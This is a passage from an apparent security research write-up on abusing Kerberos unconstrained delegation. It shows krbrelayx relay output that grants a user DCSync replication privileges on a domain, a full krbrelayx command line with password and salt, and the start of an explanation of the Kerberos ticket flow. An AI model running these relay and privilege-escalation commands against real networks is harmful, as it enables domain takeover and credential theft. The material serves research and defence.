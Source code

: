 ```
[*] Protocol Client LDAP loaded..
[*] Protocol Client LDAPS loaded..
[*] Protocol Client SMB loaded..
[*] Running in attack mode to single host
[*] Setting up SMB Server
[*] Setting up HTTP Server

[*] Servers started, waiting for connections
[*] HTTPD: Received connection from 192.168.111.56, prompting for authentication
[*] HTTPD: Client requested path: /privexchange/
[*] HTTPD: Received connection from 192.168.111.56, prompting for authentication
[*] HTTPD: Client requested path: /privexchange/
[*] Got ticket for EXCHANGE$@INTERNAL.CORP [krbtgt@INTERNAL.CORP]
[*] Saving ticket in EXCHANGE$@INTERNAL.CORP_krbtgt@INTERNAL.CORP.ccache
[*] Enumerating relayed user's privileges. This may take a while on large domains
[*] User privileges found: Create user
[*] User privileges found: Modifying domain ACL
[*] Querying domain security descriptor
[*] Success! User helpdesk now has Replication-Get-Changes-All privileges on the domain
[*] Try using DCSync with secretsdump.py and this user :)
[*] Saved restore state to aclpwn-20190210-132437.restore
```
The advantage (for an attacker) of this is that this uses Kerberos functionality instead of NTLM relaying, and thus mitigations against NTLM relaying do not apply (but it does require much higher privileges to perform). We could also have avoided calculating the Kerberos hashes manually and specified those on the command line with the correct salt, which makes krbrelayx calculate all the keys by itself:
```
python krbrelayx.py --krbpass Internal01 --krbsalt INTERNAL.CORPsqlserv -t ldap://icorp-dc.internal.corp --escalate-user helpdesk
```

# Technical details - Unconstrained delegation flow
The previous paragraphs show us how we can abuse unconstrained delegation, but we haven't yet touched on how it all works under the hood.
Let's have a look at how a Windows 10 client uses Kerberos with unconstrained delegation. Some write-ups mention that whenever the Windows 10 client requests a service ticket to a host with unconstrained delegation, this ticket automatically includes a delegated version of a TGT. This is not how it actually works. Let's look at what happens over the wire when a host authenticates to our attacker service.

When our user (testuser) logs in on the workstation, a TGT is requested from the DC (the KDC in this case). This is visible via two AS-REQs, the initial one which requests the TGT without any kind of information, and a second one in which pre-authentication information is included.

![Kerberos TGT request](/assets/img/kerberos/krbflow-1.png){: .align-center}
